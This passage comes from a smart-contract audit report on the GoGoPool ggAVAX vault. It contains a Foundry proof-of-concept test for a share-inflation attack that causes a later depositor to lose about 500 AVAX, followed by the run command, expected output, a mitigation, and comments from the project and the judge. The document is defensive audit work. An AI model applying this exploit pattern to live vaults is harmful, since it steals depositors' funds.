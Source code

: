 		// 1 second has passed
		// This can range between 0-14 days.

2000 AVAX
		vm.prank(alice);
		ggAVAX.depositAVAX{value: aliceDeposit}();

		//Expectet revert when any depositor deposits less then 1000 AVAX
		vm.expectRevert(bytes4(keccak256("ZeroShares()")));
		ggAVAX.depositAVAX{value: 10 ether}();

		// Bob withdraws maximum assests for his share
		uint256 maxWithdrawAssets = ggAVAX.maxWithdraw(bob);
		vm.prank(bob);
		ggAVAX.withdrawAVAX(maxWithdrawAssets);

		//Validate bob has withdrawn 1500 AVAX
		assertEq(bob.balance, 1500 ether);

		// Alice withdraws maximum assests for her share
		maxWithdrawAssets = ggAVAX.maxWithdraw(alice);
		ggAVAX.syncRewards(); // to update accounting
		vm.prank(alice);
		ggAVAX.withdrawAVAX(maxWithdrawAssets);

		// Validate that Alice withdraw 1500 AVAX + 1 (~500 AVAX loss)
		assertEq(alice.balance, 1500 ether + 1);
	}
```

To run the POC, execute:

```
forge test -m testShareInflation -v
```

Expected output:

```
Running 1 test for test/unit/TokenggAVAX.t.sol:TokenggAVAXTest
[PASS] testShareInflation() (gas: 3874399)
Test result: ok.

1 passed; 0 failed; finished in 8.71s
```

#### Tools Used

VS Code, Foundry

#### Recommended Mitigation Steps

When creating the vault add initial funds in order to make it harder to inflate the price. Best practice would add initial funds as part of the initialization of the contract (to prevent front-running).

[**emersoncloud (GoGoPool) confirmed**](https://github.com/code-423n4/2022-12-gogopool-findings/issues/209#issuecomment-1379257413)

[**Alex the Entreprenerd (judge) commented**](https://github.com/code-423n4/2022-12-gogopool-findings/issues/209#issuecomment-1407738455)**:**

> The Warden has shown how, by performing a small deposit, followed by a transfer, shares can be rebased, causing a grief in the best case, and complete fund loss in the worst case for every subsequent depositor.
>
> While the finding is fairly known, it's impact should not be understated, and because of this I agree with High Severity.
```